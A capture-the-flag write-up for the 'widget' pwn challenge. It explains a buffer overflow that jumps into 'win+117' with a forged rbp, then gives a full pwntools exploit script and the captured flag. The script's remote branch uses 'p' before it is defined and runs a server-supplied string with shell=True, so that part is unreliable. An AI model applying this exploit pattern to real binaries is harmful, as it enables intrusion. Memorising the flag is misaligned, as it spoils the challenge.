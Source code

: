 ```c:source
      return;
    }
    if (buffer[(int)local_c] == 'n') break;
    local_c = local_c + 1;
  }
  printf("bad %d\n",(ulong)local_c);
  exit(1);
}
```
We note that in the `main` function there is buffer overflow because we can control the number of bytes we can input with `read`. There is also a format string vulnerability but we will not use it here.
The idea is to exploit the buffer overflow to redirect the execution to the function `win`.
To properly call `win` we need to pass it two arguments, but we do not have enough gadgets in our binary. This is not a problem because we can directly jump in the middle of `win`, just after
the parameter checks (address `win+117`) provided that we set up the `rbp` register to a valid address, for instance, an address in the data section.

```python:solve.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./widget")
context.log_level = "debug"
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='''
                      b *main+341
                      c
                      ''')
    else:
        r = remote("challs.actf.co", 31320)
        p.recvuntil(b'proof of work: ')
        data=p.recvline().strip()
        p1 = process(data, shell=True)
        solution=p1.recvline()
        p.sendlineafter(b'solution: ', solution)
    return r

offset = 32   # we fill until rbp, we set rbp to the address 0x404100
payload = b'A'*offset + p64(0x404100) + p64(exe.symbols.win + 117)

p = conn()

p.sendlineafter(b'Amount: ', b'100')
p.sendafter(b'Contents: ', payload)
p.interactive()
```

🏁 _actf{y0u_f0und_a_usefu1_widg3t!_30db5c45a07ac981}_{: .spoiler}

